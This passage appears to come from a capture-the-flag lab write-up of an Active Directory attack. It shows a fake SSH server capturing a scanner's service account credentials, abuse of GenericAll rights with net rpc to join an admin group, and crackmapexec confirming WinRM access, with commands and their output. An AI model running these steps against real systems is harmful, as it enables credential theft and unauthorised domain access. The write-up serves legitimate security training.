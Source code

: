 Enumerating the user through bloodhound. The user is indeed a high value target for us.

![mapping the attacks](https://miro.medium.com/v2/resize:fit:828/format:webp/1*UUH606h1I1rjroe-dDTg4A.png)

## Initial Foothold

Let’s add ourselves as scanning target.

![adding the scanning target](https://miro.medium.com/v2/resize:fit:828/format:webp/1*q0q03LuQiM9L4QdhOtcv3A.png)

Let’s setup the [tool](https://github.com/fffaraz/fakessh) to catch the credentials.

```bash
~ $ go install github.com/fffaraz/fakessh@latest
~ $ sudo setcap 'cap_net_bind_service=+ep' ~/go/bin/fakessh
~ $ ./fakessh
```
{: .nolineno}

![Adding Credentials](https://miro.medium.com/v2/resize:fit:828/format:webp/1*-vvZa1jOmg0zsNtbiHDjcw.png)

![Starting the scan](https://miro.medium.com/v2/resize:fit:786/format:webp/1*Ew7LpiqLPCd2Vx36R8VhSA.png)

We successfully sniffed the credentials.

```bash
~/go/bin 10.8.3.192 # ./fakessh 
2024/10/08 12:58:11.355047 10.10.90.18:62079
2024/10/08 12:58:15.725291 10.10.90.18:62089
2024/10/08 12:58:16.408389 10.10.90.18:62090
2024/10/08 12:58:17.080003 10.10.90.18:62090 SSH-2.0-RebexSSH_5.0.8372.0 svc_inventory_lnx <REDACTED>
```
{: .nolineno }

No we can add the user to `LANSWEEPER ADMINS` group abusing generic all privileges.

```bash
~ $ net rpc group addmem "LANSWEEPER ADMINS" "svc_inventory_lnx" -U sweep.cl/svc_inventory_lnx%'<REDACTED>' -S 10.10.90.18

# verifying the attack
~ $ net rpc group members "LANSWEEPER ADMINS" -U sweep.cl/svc_inventory_lnx%'<REDACTED>' -S 10.10.90.18
SWEEP\jgre808
SWEEP\svc_inventory_lnx
```
{: .nolineno }

Now we can login with `evil-winrm` with this user.

```bash
~/go/bin 10.8.3.192 $ crackmapexec winrm sweep.vl -u svc_inventory_lnx -p '<REDACTED>'                                                    
SMB         sweep.vl        5985   INVENTORY        [*] Windows Server 2022 Build 20348 (name:INVENTORY) (domain:sweep.vl)
HTTP        sweep.vl        5985   INVENTORY        [*] http://sweep.vl:5985/wsman
WINRM       sweep.vl        5985   INVENTORY        [+] sweep.vl\svc_inventory_lnx:<REDACTED> (Pwn3d!)
```
{: .nolineno }
